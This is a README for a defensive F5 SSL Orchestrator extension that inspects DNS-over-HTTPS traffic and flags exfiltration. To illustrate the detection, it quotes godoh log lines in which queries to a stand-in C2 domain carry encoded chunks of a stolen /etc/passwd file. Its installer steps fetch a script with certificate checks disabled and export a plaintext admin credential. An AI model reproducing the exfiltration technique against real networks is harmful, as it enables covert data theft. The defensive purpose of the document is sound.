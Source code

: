 # SSL Orchestrator DoH Guardian
DoH Guardian is an F5 SSL Orchestrator **service extension** function for monitoring/managing DNS-over-HTTPS traffic flows and detecting potentially malicious DoH exfiltration. This SSL Orchestrator service extension is invoked at a detected (and decrypted) DNS-over-HTTPS request and has several options for logging, management, and anomaly detection.

Requires:
* BIG-IP SSL Orchestrator 17.1.x (SSLO 11.1+)
* Optional URLDB subscription -and/or- custom URL category (if categorization is required)

### To implement via installer:
1. Run the following from the BIG-IP shell to get the installer:
  ```bash
  curl -sk https://raw.githubusercontent.com/kevingstewart/sslo-service-extension-doh-guardian/refs/heads/main/doh-guardian-installer.sh -o doh-guardian-installer.sh
  chmod +x doh-guardian-installer.sh
  ```

2. Export the BIG-IP user:pass:
  ```bash
  export BIGUSER='admin:password'
  ```

3. Run the script to create all of the DoH Guardian objects
  ```bash
  ./doh-guardian-installer.sh
  ```

4. The installer creates a new inspection service named "ssloS_F5_DoH". Add this inspection service to any service chain that can receive decrypted HTTP traffic. Service extension services will only trigger on decrypted HTTP, so can be inserted into service chains that may also see TLS bypass traffic (not decrypted). SSL Orchestrator will simply bypass this service for anything that is not decrypted HTTP.

------
### To customize functionality
The **doh-guardian-rule** iRule has a number of editable settings:
* **DOH_LOG_LOCAL**: <br />Enables or disables local (/var/log/ltm) logging of DoH requests and events. (1=on, 0=off)
* **DOH_LOG_HSL**: <br />Defines a high-speed logging pool to send logs to external SIEM. (pool name)
* **DOH_CATEGORY_TYPE**: <br />Defines the category database to use, subscription, custom, or both. (string selection)
* **DOH_BLOCKING_BASIC**: <br />Enables or disables basic DoH blocking. This option is mutually exclusive and simply blocks all detected DoH requests. (1=on, 0=off)
* **DOH_BLACKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH blackhole action. (category list)
* **DOH_BLACKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default blackhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH sinkhole action. (category list)
* **DOH_SINKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default sinkhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_IP4**: <br />Defines the IP4v address that will be used for the sinkhole action on A requests. (ipv4 address)
* **DOH_SINKHOLE_IP6**: <br />Defines the IP4v address that will be used for the sinkhole action on AAAA requests. (ipv6 address)
* **DOH_ANOMALY_DETECTION**: <br />Enables or disables anomaly detection. (1=on, 0=off)
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN**: <br />Defines the long subdomain anomaly detection, by virtue of a max character length setting (integer, default=52 characters). 
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN_ACTION**: <br />Defines the action to be taken on the long subdomain anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE**: <br />Defines the uncommon query type anomaly detection, by virtue of a list of uncommon types. (DNS record type list)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE_ACTION**: <br />Defines the action to be take on the uncommon type anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)

------
### DoH Inspection Explained

You may be asking, why do I need to inspect DNS-over-HTTPS traffic? DNS has been around longer than the web, and to be honest, you don't hear a lot about it with all of the other more exciting (and terrifying) security issues flying around. As it happens, though, DNS as a protocol is extremely flexible, making it very good at things like side-channel attacks and data exfiltration. In a scenario where an attacker can control a client on an enterprise network, and a DNS server out on the Internet, it becomes rather trivial for that attacker to move arbitrary data in the form of small chunks of encoded TXT records, or even dynamic subdomain names. However, as DNS itself is not encrypted, it's typically very easy to spot these anomalies. And most enterprises will implement local DNS forwarding, so data exfiltration over raw DNS is rarely successful. However...DNS-over-HTTPS (DoH) is essentially DNS wrapped in encrypted HTTPS for added security. The original intention for this is to provide privacy, but DoH has been found to possess some interesting drawbacks:

* The most popular browsers support DoH, and by default point their queries at Internet-based services like Cloudflare and Google. Where an enterprise once had full visibility of their DNS traffic, that is now absent unless you either set up local DoH services and modify all local browser clients to use this, or just block access to Cloudflare and Google DNS altogether. It is worth noting, though, that these are only two of thousands of DoH providers available.
* DoH rides on regular HTTPS, port 443, and is otherwise indistinguishable from regular HTTPS web traffic. It's not generally possible to simply "block DoH" unless you do so, either by known DoH URLs, or by decrypting it and inspecting the payloads.

Unquestionably, DNS-over-HTTPS is an important privacy enhancement to DNS; but in doing so now obfuscates serious data leakage exploits. DoH inspection is the explicit decryption of outbound HTTPS traffic and subsequent detection of the DoH requests and responses. This function allows an organization to regain visibility and control of DNS requests heading out to Internet DoH providers. From simple logging or blocking, to DNS blackhole and sinkhole actions, and some exfiltration anomaly detections, DoH inspection can be a vital part of the overall security of enterprise traffic flows.

------
### DoH Anomaly Detection Explained

Before getting into the weeds of DoH anomaly detection, it's important to illustrate an actual exploit. There are many different tools for doing DoH exfiltration, but they all run on essentially the same basic principles: encoding chunks of data in multiple DNS requests. A compromised system inside the corporate network will make DNS-over-HTTPS queries to some public DoH service (ex. Cloudflare), which wlll forward those requests to a C2 DNS instance somewhere on the Internet. From the organization's perspective, this is just HTTPS traffic going to Cloudflare. The compromised client "agent" will periodically query the C2 instance, and when ready the C2 instance will issue a command in its response. We can look at a simple example from the **godoh** tool. In this case, the client agent makes successful contact with the C2 instance and sends periodic queries, waiting for commands:

```bash
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
```

This is a DNS **TXT** record request. At some point, the C2 instance will issue a command that it encodes in its TXT record response. The C2 server could, for example, say something like, "Give me your /etc/passwd file." The client agent will then go do the thing (get the local /etc/passwd file), break it into a bunch of small pieces, encode those pieces, and then send those pieces to the C2 instance as A record requests:

```bash
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.12.a88ac3df.0.3.f943910ae0adcf7105990f3192c19236d04c0df22f897d91c3efec75f2d1.f9d26d1e218b77c6a28c9681391596f610ecbfac02f5b3bc5d5763b891c4.ea32f05d2bfc4eb65078835e0d8234f8b76bf20099e87b13305d14c23f98.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
```

There are a number of ways to "detect" anomalous DNS-over-HTTPS traffic, as documented in [Real time detection of malicious DoH traffic using statistical analysis](https://www.sciencedirect.com/science/article/pii/S1389128623003559). In this implementation we focus on two of these:

* **Abnormally long subdomain names**: where, as illustrated above, the full subdomain in a DoH exfiltration event will exceed some character length (default 52 characters).
* **Uncommon query types**: where the DoH agent uses an uncommon query type to convey messages (ex. NULL, NAPTR).

------
### DoH Blackhole Action Explained

By [definition](https://www.ijitee.org/wp-content/uploads/papers/v8i7c2/G10040587C219.pdf), a DNS blackhole essentially diverts a DNS client to *nothing*. A DNS blackhole will either drop the request entirely, or respond with an NXDOMAIN. However, a browser that fails in getting a DoH response will almost always retry with regular DNS, making this a less effective option. To properly blackhole a DoH request, the client must receive an actual response, but to something that does not exist. In this implementation, a DoH blackhole responds to the client with either a 199.199.199.199 IPv4 address for an A request, or 0:0:0:0:0:ffff:c7c7:c7c7 IPv6 address for a AAAA request.

------
### DoH Sinkhole Action Explained

In a sinkhole response, the resolver sends back an IP address that points to a local blocking server. In contrast to a blackhole, a DNS sinkhole is diverting to *something*. The sinkhole destination is then able to respond to the client's request, so instead of just dying, the user might get a blocking page instead. In a DoH/DNS sinkhole without SSL Orchestrator, a client would initiate a TLS handshake to this server (believing it's the real site), and would get a certificate error because the server certificate on that blocking server doesn't match the Internet hostname requested by the client. The SSL Orchestrator solution requires two configurations:

* A sinkhole internal virtual server that simply hosts the "blank" certificate that SSL Orchestrator will use to mint a trusted server certificate to the client.
* An SSL Orchestrator outbound L3 topology modified to listen on the sinkhole destination IP, and inject the blocking response content.























